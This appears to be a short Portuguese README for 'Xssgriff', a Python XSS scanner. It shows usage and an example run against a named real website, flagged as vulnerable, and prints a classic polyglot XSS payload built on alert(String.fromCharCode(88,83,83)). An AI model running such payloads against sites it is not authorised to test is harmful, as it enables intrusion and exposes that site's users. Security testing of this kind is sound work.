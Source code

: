Xssgriff, script para analizar vulnerabilidade em XSS.

Modo de uso:
python xss.py 
url : teste.com.br/page?parameter=

Digite a url:
URL: http://www.koinonia.org.br/tpdigital/detalhes.asp?cod_artigo=161&cod_boletim=9&tipo=
Lembrando com parametro! 
e o resultado sera 
http://www.koinonia.org.br/tpdigital/detalhes.asp?cod_artigo=161&cod_boletim=9&tipo=
Vulneravel: ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

Realiza o teste! 
Obrigado

Ao final, mostrando os payloads vulneraveis.
